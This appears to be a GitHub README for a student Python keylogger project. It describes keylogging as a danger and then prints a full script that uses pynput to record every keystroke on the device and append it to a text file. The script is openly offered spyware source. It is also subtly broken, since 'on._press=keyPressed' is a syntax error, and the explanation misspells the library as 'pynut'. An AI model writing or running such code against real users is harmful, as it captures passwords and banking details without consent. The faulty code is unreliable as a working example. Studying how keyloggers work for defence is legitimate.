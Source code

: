 # Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 🔍
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective 🥅
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device and store them in a text file automatically for viewing. This project therefore demonstrates the basics of keylogging, highlighting the dangers of this simple technique.
## Skills Learned

## Tools/Languages Used 🔨
- VSCode
- Python

## Script 📜
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>

## How it Works ❓
1. Keystrokes are listened for using pynut library
2. When this script is executed, These keystrokes are then appended to a file (keyfile.txt)
   
## Tips & Resources ✍️📖
Keylogging Python Tutorial by <strong> Shaun Halverson </strong>: <href> https://www.youtube.com/watch?v=mDY3v2Xx-Q4 </href>
